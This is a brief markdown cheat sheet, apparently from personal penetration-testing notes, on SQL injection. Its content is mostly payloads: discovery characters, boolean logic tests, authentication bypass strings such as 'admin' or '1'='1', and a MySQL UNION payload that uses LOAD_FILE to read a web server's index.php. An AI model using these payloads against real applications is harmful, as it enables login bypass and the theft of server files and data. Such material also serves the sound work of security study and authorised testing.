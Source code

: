 # Sql Injection

## Overview

SQL Injection58 is a common web vulnerability found in dynamic sites that is caused by unsanitized user input, which is then passed on to a database.  This user input can then be manipulated to “break out” of the original query made by the developers, to include more malicious actions.

## Discovery/Entry point Detection

Good payload to for discovery is :

    '
    "
    ;
    )
    *
    --
    #

Logic Testing

    1 or 1=1 --  filler
    1' or 1=1 -- '
    1" or 1=1 -- '
    1 and 1=2 -- false

## Auth Bypass Payloads

    admin' or '1'='1
    admin')-- -
    admin') OR 1=1 -- '


## Sql injection mysql

When we find a sql injection we can try to load files:

```
data' union select LOAD_FILE('/var/www/html/index.php')-- -
```

## More Information

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection